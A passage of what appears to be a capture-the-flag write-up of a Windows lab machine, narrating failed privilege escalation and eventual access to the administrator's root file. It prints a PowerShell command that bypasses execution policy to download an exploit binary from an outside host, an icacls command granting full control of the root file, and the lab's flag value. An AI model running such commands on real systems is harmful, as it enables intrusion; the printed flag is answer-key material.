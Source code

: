       [!] Target patched
         [*] Possible security patches
            [*] KB2503665
            [*] KB2975684

C:\Users\Alfred\Desktop&gt;
</pre>
Unfortunately the system has been patched and this didn't work. I found another exploit - uploaded and run it but it didn't work.
<pre>powershell.exe -noninteractive -ExecutionPolicy Bypass -NoLogo -NoProfile (new-object System.Net.WebClient).DownloadFile('http://10.10.14.234:8000/EoP.exe','EoP.exe')</pre>
I came back to the box the next day - yes I needed to take a break, especially as I was getting really annoyed as it took me a long time to figure out how to transfer a file into windows. Linux is so much easier - never thought I'd hear myself saying that! I'm actually at the stage that I prefer working in Linux for exploiting things.

I decided to go back over my notes and realized that I can view the root.txt file - which you normally cant, I actually made reference that this was usual but I ignored it and moved on. This turned out to be the way forward. I changed permission of the file and granted Alfred user ( whom I'm logged in as ) access. - After a bit of Googling I got the correct command.
<pre>C:\Users\Administrator\Desktop&gt;icacls "c:\Users\Administrator\Desktop\root.txt" /grant Alfred:F
icacls "c:\Users\Administrator\Desktop\root.txt" /grant Alfred:F
processed file: c:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop&gt;
</pre>
Next stop, root flag!
<pre>C:\Users\Administrator\Desktop&gt;type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
</pre>
FIN

Summary

I liked this box, it initially tested my patience not being able to easily find a port to probe. Once I found the port it was only a sort time until I was in as a user. The only problem I had was that I had to restart it several times as it hung when I was trying different commands to get the exploit to the server.
